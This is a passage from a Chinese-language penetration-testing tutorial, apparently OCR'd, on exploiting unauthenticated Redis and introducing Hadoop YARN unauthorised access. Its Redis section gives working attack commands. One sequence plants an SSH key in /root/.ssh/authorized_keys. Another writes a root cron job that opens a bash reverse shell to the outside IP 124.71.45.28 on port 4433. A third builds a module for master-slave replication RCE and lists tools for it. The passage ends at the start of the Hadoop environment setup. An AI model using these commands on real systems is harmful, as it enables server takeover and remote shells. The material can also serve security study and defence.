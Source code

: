 上传到目标redis服务：`cat /tmp/foo.txt | redis-cli -h 122.114.225.148 -p 6379 -x set m`

连接目标redis服务：`redis-cli -h 127.0.0.1 -p 6379`

设置工作目录：`config set dir /root/.ssh`

设置备份文件：`config set dbfilename "authorized_keys"`

保存备份：`save`

成功将公钥传入到目标主机目录即可远程连接：`ssh root@127.0.0.1 -p 2222`

<br/>

###### 写定时任务反弹shell

连接到目标redis服务：`redis-cli -h 127.0.0.1 -p 6379`

配置工作目录：`config set dir /var/spool/cron` (此目录为linux系统读取定时任务配置的目录)

配置备份文件：`config set dbfilename root` (将备份文件命名为root，linux系统以文件名区分不同用户的定时任务)

构造命令文本并：`set xxx "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/124.71.45.28/4433 0>&1\n\n"`

保存备份文件：`save`

<br/>

###### 主从复制

手动编译so扩展文件

```sh
cd /root/
git clone https://github.com/puckiestyle/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
```

利用redis主从复制RCE

利用工具：`https://github.com/puckiestyle/RedisModules-ExecuteCommand`

```
             `https://github.com/Ridter/redis-rce`

             `https://github.com/Dliv3/redis-rogue-server`

             `https://github.com/vulhub/redis-rogue-getshell`
```

<br/>

### 三、Hadoop未授权访问

Hadoop YARN（Yet Another Resource Negotiator）用于集群资源管理和作业调度，是Hadoop集群的资源管理系统。
YARN 提供有默认开放在8088和8090的REST API（默认8088）允许用户直接通过API进行相关的应用创建、任务提交执行等操作，如果配置不当可导致未授权访问的问题，攻击者无需认证即可通过REST API部署任务来执行任意指令，最终完全控制服务器。

##### 1）漏洞环境
